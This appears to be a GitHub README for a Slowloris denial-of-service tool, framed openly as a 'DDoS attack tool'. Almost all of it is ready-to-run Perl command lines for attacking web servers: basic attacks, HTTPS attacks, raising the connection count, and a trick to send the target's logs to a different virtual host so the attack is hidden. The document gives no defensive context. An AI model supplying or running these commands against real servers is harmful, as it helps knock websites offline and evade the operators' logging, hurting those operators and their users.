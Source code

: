 # slowloris-ddos-attack-tool
I think everyone know what is Slowloris XD

Source From https://github.com/llaera

##How To Use Slowloris
###Basic Attack
Run slowloris on command line
```perl slowloris.pl -dns example.target.com```

###Port FLooding
Run slowloris on command line
```./slowloris.pl -dns www.example.com -port 80```

###Number of Port Attack
Run slowloris on command line
```./slowloris.pl -dns www.example.com -port 80 -num 500 ```

###HTTPS Attack
Run slowloris on command line
```./slowloris.pl -dns www.example.com -port 443 -timeout 30 -num 500 -https```

There is another build in trick you might want to know. If you know that the Server is running several virtual hosts you can send the log to an other vhost than you are attacking!

```./slowloris.pl -dns www.example.com -port 80 -timeout 30 -num 500 -tcpto 1 -shost www.virtualhost.com ```

